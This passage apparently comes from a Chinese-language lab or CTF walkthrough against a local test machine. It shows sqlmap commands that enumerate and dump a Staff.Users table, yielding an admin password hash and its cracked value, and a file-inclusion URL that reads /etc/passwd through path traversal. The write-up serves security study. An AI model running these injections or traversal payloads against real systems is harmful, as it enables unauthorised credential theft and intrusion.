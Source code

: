 ```bash
sqlmap -r 1.txt --columns -T "Users" -D "Staff"
```

```sql
Database: Staff
Table: Users
[3 columns]
+----------+-----------------+
| Column   | Type            |
+----------+-----------------+
| Password | varchar(255)    |
| UserID   | int(6) unsigned |
| Username | varchar(255)    |
+----------+-----------------+
```

```bash
sqlmap -r 1.txt --dump -C "Password,UserID,Username" -T "Users" -D "Staff"
```

```sql
Database: Staff
Table: Users
[1 entry]
+--------+----------+----------------------------------+
| UserID | Username | Password                         |
+--------+----------+----------------------------------+
| 1      | admin    | 856f5de590ef37314e7c3bdf6f8a66dc |
+--------+----------+----------------------------------+
```

得到用户与密码：

```apl
admin 
856f5de590ef37314e7c3bdf6f8a66dc(transorbital1)
```

尝试登录：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403212116481.png" alt="image-20240321191011749" style="zoom:50%;" />

可能存在文件包含漏洞，找一下上传点：

```url
http://10.160.58.244/addrecord.php?file=../../../../../etc/passwd
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403212116482.png" alt="image-20240321191306276" style="zoom: 33%;" />

查看一下其他数据库：

```bash
sqlmap -r 1.txt --dbs
```

```sql
available databases [3]:
[*] information_schema
[*] Staff
[*] users
```
